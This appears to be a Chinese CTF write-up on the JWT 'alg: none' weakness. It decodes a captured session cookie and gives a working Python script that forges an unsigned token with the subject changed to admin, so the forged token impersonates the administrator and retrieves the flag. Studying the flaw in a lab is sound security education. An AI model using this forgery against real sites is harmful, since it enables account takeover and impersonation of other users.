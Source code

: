 # 签名算法可被修改为none

## 前言

JWT支持将算法设定为“None”。如果“alg”字段设为“ None”，那么签名会被置空，这样任何token都是有效的。
设定该功能的最初目的是为了方便调试。但是，若不在生产环境中关闭该功能，攻击者可以通过将alg字段设置为“None”来伪造他们想要的任何token，接着便可以使用伪造的token冒充任意用户登陆网站。

## 开始做题

首先拿到cookie

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJhZG1pbiIsImlhdCI6MTYwOTIzNjg3MCwiZXhwIjoxNjA5MjQ0MDcwLCJuYmYiOjE2MDkyMzY4NzAsInN1YiI6InVzZXIiLCJqdGkiOiI5NDNkMGIzMjM3ODA2NjU5ZDJlMjA1ZTQyYjMxOTQ5NCJ9.9TUQLyYKs97ceFhZQ4BzkAuug6nCgLoMAbLH88kSOwo
```

解码

```
{
  "alg": "HS256",
  "typ": "JWT"
}
{
  "iss": "admin",
  "iat": 1609236870,
  "exp": 1609244070,
  "nbf": 1609236870,
  "sub": "user",
  "jti": "943d0b3237806659d2e205e42b319494"
}
```

我们需要把sub字段改为admin

但是如果把签名算法改为none的化jwt.io那个网站就无法生成，这个时候可以使用python生成

```python
import jwt

# payload
token_dict = {
  "iss": "admin",
  "iat": 1609236870,
  "exp": 1609244070,
  "nbf": 1609236870,
  "sub": "admin",
  "jti": "943d0b3237806659d2e205e42b319494"
}

headers = {
  "alg": "none",
  "typ": "JWT"
}
jwt_token = jwt.encode(token_dict,  # payload, 有效载体
                       "",  # 进行加密签名的密钥
                       algorithm="none",  # 指明签名算法方式, 默认也是HS256
                       headers=headers 
                       # json web token 数据结构包含两部分, payload(有效载体), headers(标头)
                       )

print(jwt_token)
```

将生成的字符串来替换原有的cookie获得flag